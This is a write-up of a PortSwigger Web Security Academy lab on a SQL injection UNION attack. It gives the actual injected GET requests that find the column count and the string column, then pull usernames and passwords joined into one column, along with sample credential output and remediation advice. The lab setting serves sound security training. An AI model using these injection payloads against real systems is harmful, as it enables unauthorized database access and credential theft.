







# Lab Writeup: SQL Injection UNION Attack — Retrieving Multiple Values in a Single Column

> **Platform:** PortSwigger Web Security Academy  
> **Category:** SQL Injection  
> **Difficulty:** Practitioner  
> **Status:** ✅ Solved  
> **Date:** April 2026  

---

## Overview

This lab extends the UNION attack technique to handle a scenario where only **one column** in the original query accepts string data. To retrieve multiple values (username and password), they must be concatenated into a single string using a separator.

**Objective:** Use a UNION attack to retrieve all usernames and passwords from the `users` table, then log in as `administrator`.



---

## Vulnerability Description

| Attribute | Detail |
|-----------|--------|
| **Vulnerability Type** | SQL Injection — UNION attack with string concatenation |
| **OWASP Category** | A03:2021 – Injection |
| **Injection Point** | `category` query parameter |
| **Technique** | Concatenate multiple values into one string column using `\|\|` |
| **Impact** | Full credential exfiltration from `users` table |

---

## Tools Used

- **Burp Suite** – Repeater
- **Browser** – PortSwigger lab environment

---

## Exploitation Steps

### Step 1 — Determine Column Count

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL--
```

`200 OK` — the query returns 2 columns.



---

### Step 2 — Identify Which Column Accepts Strings

Test each column individually:

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,'a'--
```

Only the **second column** accepts strings — the first column is numeric.



---

### Step 3 — Concatenate Username and Password into One Column

Since only one column accepts strings, concatenate both values with a separator (`~`) using the `||` operator:

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

Both username and password appear together in the single string column.



---

### Step 4 — Extract Administrator Credentials

From the response, identify the `administrator~<password>` entry and extract the password.



---

### Step 5 — Log In as Administrator

Use the extracted credentials to log in.



---

### Step 6 — Lab Solved

Successfully authenticated as administrator. Lab solved.



---

## Root Cause Analysis

```
Only 1 string column available → must concatenate:

UNION SELECT NULL, username || '~' || password FROM users

Response shows:
  administrator~s3cur3pass!
  wiener~peter
  carlos~...
```

---

## Remediation

| Recommendation | Description |
|----------------|-------------|
| **Parameterized Queries** | Completely prevents this class of attack |
| **Least Privilege** | App DB user should not have access to `users` table |
| **Hash Passwords at Rest** | Bcrypt/Argon2 — makes exfiltrated passwords unusable |
| **Output Encoding** | Encode all database output rendered in HTML |

---

## Key Takeaways

- **When only one string column is available**, use string concatenation (`||` in PostgreSQL/Oracle, `CONCAT()` in MySQL) to retrieve multiple values.
- **A separator character** (e.g. `~`) makes it easy to split the combined result back into username and password.
- **Always probe which columns accept strings** before attempting to retrieve text data via UNION.

---

*Writeup produced as part of PortSwigger Web Security Academy lab practice.*
